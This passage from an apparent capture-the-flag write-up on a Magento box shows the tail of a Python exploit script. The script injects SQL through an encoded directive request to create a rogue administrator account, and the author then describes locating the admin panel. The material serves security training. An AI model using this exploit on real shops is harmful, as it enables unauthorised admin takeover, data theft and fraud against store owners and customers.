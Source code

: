 (`firstname`, `lastname`,`email`,`username`,`password`,`created`,
`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) 
VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) 
VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username=username, password=password)
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds {1}:{2}".format(target, username, password)
else:
    print "DID NOT WORK"
{% endhighlight %}

Before running the script, I checked whether `http://swagshop.htb/admin/Cms_Wysiwyg/directive/index/` was a valid URL. Unfortunately, it wasn't. Maybe we need to specify a base URL ?

![](/assets/images/swagshop3.png)

When browsing the website, I realised that the different page URLs were being appended to `index.php`. 

![](/assets/images/swagshop4.png)  
![](/assets/images/swagshop5.png)

To test my theory, I browsed to `http://swagshop.htb/index.php/admin` and I was greeted by the the admin panel login page.

![](/assets/images/swagshop6.png)
